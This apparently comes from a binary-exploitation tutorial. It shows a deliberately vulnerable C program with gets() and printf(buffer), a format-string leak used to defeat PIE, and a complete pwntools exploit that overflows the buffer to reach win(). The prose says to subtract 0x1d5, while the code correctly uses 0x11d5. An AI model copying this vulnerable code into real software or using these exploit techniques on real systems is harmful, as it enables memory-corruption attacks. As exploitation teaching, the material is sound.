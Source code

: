 ```yaml
---
description: Using format string
---
```


# PIE Bypass

## The Source

{% file src="../../../.gitbook/assets/pie-fmtstr.zip" caption="PIE + Format String - 32-bit" %}

```c
#include <stdio.h>

void vuln() {
    char buffer[20];

    printf("What's your name?\n");
    gets(buffer);
    
    printf("Nice to meet you ");
    printf(buffer);
    printf("\n");

    puts("What's your message?");

    gets(buffer);
}

int main() {
    vuln();

    return 0;
}

void win() {
    puts("PIE bypassed! Great job :D");
}
```

Unlike last time, we don't get given a function. We'll have to leak it with format strings.

## Analysis

```text
$ ./vuln-32 

What's your name?
%p
Nice to meet you 0xf7f6d080
What's your message?
hello
```

Everything's as we expect.

## Exploitation

### Setup

As last time, first we set everything up.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

### PIE Leak

Now we just need a leak. Let's try a few offsets.

```text
$ ./vuln-32 
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7eee080 (nil) 0x565d31d5 0xf7eb13fc 0x1
```

3rd one looks like a binary address, let's check the difference between the 3rd leak and the base address in radare2. Set a breakpoint somewhere after the format string leak \(doesn't really matter where\).

```text
$ r2 -d -A vuln-32 

Process with PID 5548 started...
= attach 5548 5548
bin.baddr 0x565ef000
0x565f01c9]> db 0x565f0234
[0x565f01c9]> dc
What's your name?
%3$p
Nice to meet you 0x565f01d5
```

We can see the base address is `0x565ef000` and the leaked value is `0x565f01d5`. Therefore, subtracting `0x1d5` from the leaked address should give us the binary. Let's leak the value and get the base address.

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}') # not required, but a nice check
```

Now we just need to send the exploit payload.

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

print(p.clean().decode())
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

print(p.clean().decode())
```

## 64-bit

Same deal, just 64-bit. Try it out :\)

{% file src="../../../.gitbook/assets/pie-fmtstr-64.zip" caption="PIE + Format String - 64-bit" %}



